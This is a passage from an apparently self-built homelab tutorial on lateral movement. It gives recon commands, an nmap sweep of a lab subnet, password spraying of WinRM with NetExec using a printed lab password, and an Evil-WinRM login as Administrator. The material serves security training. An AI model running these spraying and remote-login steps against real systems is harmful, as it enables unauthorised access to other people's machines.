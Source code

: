 ### Operations (Lateral Movement)

- Gather further system information:
  - **OS Details:**
    ```
    cat /etc/os-release
    ```
  - **Hostname:**
    ```
    hostname
    ```
  - **IP Address:**
    ```
    ip a
    ```
- Run an nmap scan to identify open ports:
  ```
  nmap -Pn -p1-65535 -sV 10.0.0.0/24
  ```
  - For time-saving, use `-p 5985,5986` when scanning for WinRM.
- Identify that ports 5985 and 5986 (WinRM) are open.
- Use a password spraying tool (e.g., NetExec):
  - Create a `users.txt` file with:
    ```
    Administrator
    ```
  - Create a `pass.txt` file with:
    ```
    @Deeboodah1!
    ```
  - Execute:
    ```
    nxc winrm 10.0.0.100 -u users.txt -p pass.txt
    ```
- Capture the Administrator credentials.
- Use **Evil-WinRM** to connect to [project-x-win-client]:
  ```
  evil-winrm -I 10.0.0.100 -u Administrator -p @Deeboodah1!
  ```
- **Success!** Administrator access has been achieved.

---

## Lateral Movement 2.0

Attackers often mix initial access, reconnaissance, and lateral movement iteratively.

### Mandatory VMs Powered-On (Lateral Movement 2.0)

- [project-x-sec-box]
- [project-x-win-client]
- [project-x-dc]
- [project-x-attacker]

---